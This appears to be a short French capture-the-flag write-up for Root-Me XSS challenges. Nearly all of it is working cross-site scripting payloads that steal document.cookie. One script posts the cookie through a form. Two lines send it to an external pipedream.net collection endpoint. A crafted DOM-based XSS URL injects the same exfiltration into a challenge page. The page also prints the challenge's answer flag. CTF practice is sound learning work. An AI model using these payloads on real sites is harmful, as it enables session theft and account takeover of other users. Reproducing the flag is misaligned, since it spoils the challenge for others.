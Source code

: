 # XSS

## Exploitation
----------------

<script>
        if (window.location.href[window.location.href.length - 1] == "P") {
            const urlParams = new URLSearchParams(window.location.search);
            urlParams.forEach((value, key) => {
                localStorage.setItem(key, value);
            });
            document.getElementsByName("titre")[0].value = "Racked";
            document.getElementsByName("message")[0].value = document.cookie;
            document.getElementsByTagName("Form")[0].submit();
        } else {
            let l = document.querySelectorAll('body > div > span');
            if (l[l.length - 1].innerText != "Racked") {
                window.location.replace(window.location.href + "?data=" + document.cookie + "P");
            }
        }
</script>

>window.location.href ="https://eodc8nsrzvgs12t.m.pipedream.net?data=" + document.cookie

>document.location ="https://eodc8nsrzvgs12t.m.pipedream.net?data=" + document.cookie

## XSS DOM BASED

On remarque que la variable number récupère les données via l'url
On a simplement à fermer les guillements pour ensuite executer le code
`http://challenge01.root-me.org/web-client/ch32/index.php?number=%27;document.location.href=%22https://eodc8nsrzvgs12t.m.pipedream.net?data=%22.concat(document.cookie);`

### FLAG
`rootme{XSS_D0M_BaSed_InTr0}`
